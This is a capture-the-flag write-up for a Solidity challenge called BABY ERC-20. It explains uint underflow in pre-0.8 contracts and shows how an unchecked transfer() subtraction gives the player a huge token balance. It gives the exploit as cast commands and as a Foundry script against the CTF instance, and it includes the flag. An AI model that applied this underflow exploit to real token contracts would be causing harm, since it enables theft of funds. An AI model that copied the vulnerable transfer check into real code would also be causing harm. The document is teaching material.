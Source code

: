 # Writeup for BABY ERC-20

- Hello h4ck3r, welcome to the world of smart contract hacking. In order to understand this writeup you need to understand foundry.

### Challenge Description

No Description given

### Key Concepts to Learn

In order to solve this challenge we need to understand `overflows` and `underflows` in solidity.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract overflow_underflow{
    uint8 overflow=255;
    uint8 underflow=0;

    function increment()public{
        overflow++;
    }

    function decrement()public{
        underflow--;
    }

}
```

The above contract is a good example to understand overflows and underflows. The state variable `overflow` is set to 255, and the state variable `underflow` is set to 0.

`uint8` technically refers to 8 bits, which means it can store a maximum value of 255. If we increase the value of the variable after 255, it will start from zero again. In the above contract, if we call `increment()` once, then `overflow` will be set to zero. If we call it again, it will be set to 1, and so on.

The minimum value of `uint8` is 0. But if we decrease a `uint8` variable after zero, it will become 255. In the above contract, if we call `decrement()` once, then `underflow` is set to 255. If we call it again, `underflow` will be set to 254, and so on.

For solidity versions greater than 0.8.0, overflow and underflows are implicitly handled. But for solidity versions less than 0.8.0, we need to explicitly handle the overflows and underflows.There is a library named SafeMath to handle overflows and underflows for versions less than 0.8.0.

If you are new to overflows and underflows, I suggest you go to [Remix](https://remix.ethereum.org/) and try out the example by deploying in remix local VM's.

### Exploit

Click [here](./src/contracts/) to view the source contracts.

In this challenge our task is make `isSolved()` function return true.

```solidity
function isSolved() public view returns (bool) {
    return coin.balanceOf(player) > 1000 ether; // im rich :D
    }
```

The function `isSolved()` is checking if the player has enough balance in the `HCOIN` contract or not. If the player's balance is more than `1000 ether`, it will return true.

Now let's understand some functions in the HCOIN contract. The blanceOf variable is changed in three functions.

```solidity
function deposit() public payable {
    balanceOf[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
}
```

The function `deposit()` will increment the `balanceOf` of `msg.sender` (caller) by `msg.value` (if any ether is sent during the call). We can call this function and make our balance `1001 ether` `HCOIN` tokens only if we have `1001 ETH`. Since the challenge creator has given us less than `1001 ether`, we need to look into other functions.

```solidity
function transfer(address _to, uint256 _value) public returns (bool success) {
    require(_to != address(0), "ERC20: transfer to the zero address");
    require(balanceOf[msg.sender] - _value >= 0, "Insufficient Balance");
    balanceOf[msg.sender] -= _value;
    balanceOf[_to] += _value;
    emit Transfer(msg.sender, _to, _value);
    return true;
}
```

The function `transfer()` takes two arguments: address \_to and uint256 \_value. It first checks if \_to is a zero address. If it is, the function call will revert. Otherwise, it checks if msg.sender has enough balance to transfer the specified amount. If msg.sender has enough balance, the function decreases the msg.sender balance by \_value and increases the \_to balance by \_value.

The Solidity compiler version used for the HCOIN contract is 0.6.12, which means it is vulnerable to overflows and underflows. They also haven't used the SafeMath library to prevent overflows. So, the contract is vulnerable to overflows and underflows.

Let's check how this function will work if the balance of `msg.sender` is 0 and they are transferring 1 wei to another address.

1. `balanceOf[msg.sender]` will return 0 and `_value` is 1.
2. `0 - 1` will return `2**256 - 1` which is greater than 0.
3. `balanceOf[msg.sender] -= _value`. This will set `msg.sender` balance to `2**256 - 1 wei` which is equivalent to `115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether`.
4. `balanceOf[_to] += _value`. This will set `_to` balance to 1 wei.

So from our account if we send 1 wei to any address then we will have a balance of 115792089237316195423570985008687907853269984665640564039457.584007913129639935 ether HCOIN tokens and our challenge will be solved.

```solidity
function setPlayer(address _player) public {
    require(_player == msg.sender, "Player must be the same with the sender");
    require(_player == tx.origin, "Player must be a valid Wallet/EOA");
    player = _player;
}
```

Once the transfer is completed we need call setPlayer() function in Setup.sol by passing our address as an argument.

We can complete this transaction in two ways. One way is by making direct transactions using `cast`, and the second way is by writing a script.

**Method-1**

In our instance, they are giving only the Setup contract address, but we need to interact with the HCOIN contract first. Since `coin()` in Setup is a public variable, we can get the `HCOIN` contract address by making a call to `coin()`.

```shell
$ cast call 0xD896A0672D9E650B18524139293e4CDcA1E44c9e "coin()" --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb

```

`0xD896A0672D9E650B18524139293e4CDcA1E44c9e` is the Setup contract address. Now we need to call the `transfer()` function.

```shell
$ cast send 0x90bdc08cf595a862268cb0f12ec5956178e6fbf0 "transfer(address,uint256)" 0xD896A0672D9E650B18524139293e4CDcA1E44c9e 1 --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb --interactive
```

`0x90bdc08cf595a862268cb0f12ec5956178e6fbf0` is the address of the HCOIN contract.

```shell
$ cast send 0xD896A0672D9E650B18524139293e4CDcA1E44c9e "setPlayer(address)" 0xB0C867c14c0F7fFD55FDD3604C9Cb3771D80e4Ee --rpc-url http://ctf.tcp1p.team:13391/e73c5313-8f72-46ab-88ee-25bdb18461bb --interactive
```

Once this transaction completes, the challenge will be solved.

**Method-2**

We can also solve this challenge by writing a script.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.6.0;

import {Script, console} from "forge-std/Script.sol";
import {Setup, HCOIN} from "src/Setup.sol";
import {ExploitHCOIN} from "./ExploitHCOIN.sol";

contract ExploitScript is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(//__YOUR__SETUP__ADDRESS);
        HCOIN hcoin = setup.coin();
        hcoin.transfer(address(1), 1 ether);
        setup.setPlayer(msg.sender);
        require(setup.isSolved(), "Exploit Failed");
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitScript.s.sol:ExploitScript --rpc-url http://ctf.tcp1p.team:13391/be6c4a04-354d-4901-a68c-b869ec0060b9 -i 1 --broadcast --sender 0x46dA09A4C4e019CDF7203D16E92FC3db3215Fd22
```

Once you compile and run the script the challenge will be solved. If you face any copiler version issues set `solc_version = "0.6.12"` in foundry.toml

**Flag:** `TCP1P{https://x.com/0xCharlesWang/status/1782350590946799888}`

### Key Takeaways

For solidity versions less than 0.8.0, we need to explicitly handle the overflows and underflows. We can use the [SafeMath](https://github.com/aave/protocol-v2/blob/master/contracts/dependencies/openzeppelin/contracts/SafeMath.sol) library to overcome those.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
